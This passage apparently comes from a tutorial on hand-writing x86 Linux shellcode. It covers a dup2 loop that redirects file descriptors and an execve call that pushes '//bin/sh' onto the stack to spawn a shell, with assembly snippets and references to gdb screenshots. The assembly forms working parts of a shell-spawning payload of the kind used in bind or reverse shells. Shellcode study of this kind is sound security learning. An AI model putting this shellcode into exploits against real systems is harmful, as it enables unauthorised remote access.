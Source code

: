 ``` assembly
xor eax, eax
mov al, 0x3f
int 0x80 

dec cx    
jns dupLoop
```
Here the gdb output right before the execution of the syscall:

![dup2](images/dup2.png)

## execve
After that we need to to create the actual shell. This can be achieved by  calling /bin/sh with the execve call which is defined like this:
``` c
int execve(const char *pathname, char *const argv[], *const envp[]);
``` 
For this we first have to push the /bin/sh to the stack. We have to do this in reverse order. We could devide it in //bi and n/sh to have it defined as a dword.
``` assembly
push eax
push 0x68732f6e
push 0x69622f2f
```
After that we need the reference to the top of the stack where the string (//bin/sh) is located and move this pointer to ebx. To use the execve call we have to set the eax register to 0xb.
``` assembly
mov ebx, esp
mov al, 0xb
int 0x80
```
So before the syscall the registers are filled like this:
